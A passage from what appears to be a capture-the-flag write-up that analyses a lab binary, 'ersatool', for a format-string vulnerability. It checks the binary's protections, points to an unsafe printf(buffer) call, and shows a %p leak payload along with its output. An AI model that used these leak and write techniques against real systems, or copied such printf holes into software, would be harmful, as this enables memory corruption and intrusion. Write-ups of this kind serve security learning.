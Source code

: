 There's also a specifier, `%n`, that doesn't read, but writes the number
of bytes printed up to this point in the string to the address passed
in. That means if I can reference something I pass in, I can arbitrarily
write memory.

#### Protections

Unsurprisingly, the box has ASLR enabled:



    www-data@pki:~$ cat /proc/sys/kernel/randomize_va_space 
    2



The binary is running with some protections:



    oxdf@parrot$ checksec ersatool
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      PIE enabled



`NX` means I can't write to the stack and then execute from it, and
`PIE` means that the addresses of not just the libraries but also the
main program will be moving in memory, and that I'll need a address leak
in order to meaningfully interact with memory.

#### Identify Format String Vuln

The first thing that jumped out at me looking at the code was this line
in `printCN`:



    printf(buffer); //checking buffer content



That's calling `printf` on a buffer without a format string. If that
buffer is user controlled, then it can be used to leak and write memory.

I'll use `%p` to print 64-bit pointers, with `016` to zero-pad the
results and a `.` to create spacing:



    oxdf@parrot$ ./ersatool print %016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p
    0x0056378a09d15f.0x00000000000005.0x000000006e7076.0x00000000000014.0x007ffcfbb9fed0.           (nil).0x007ffcfbba21b2.0x30252e7036313025.0x363130252e703631.0x2e70363130252e70[!] ERR reading /opt/easyrsa/clients/%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.ovpn!
    oxdf@parrot$ ./ersatool print %016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p
    0x005577868eb15f.0x00000000000005.0x000000006e7076.0x00000000000014.0x007ffd447d6170.           (nil).0x007ffd447d81b2.0x30252e7036313025.0x363130252e703631.0x2e70363130252e70[!] ERR reading /opt/easyrsa/clients/%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.ovpn!
    oxdf@parrot$ ./ersatool print %016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p
    0x00563ff8e7a15f.0x00000000000005.0x000000006e7076.0x00000000000014.0x007fffbd26ca20.           (nil).0x007fffbd26e1b2.0x30252e7036313025.0x363130252e703631.0x2e70363130252e70[!] ERR reading /opt/easyrsa/clients/%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.%016p.ovpn!
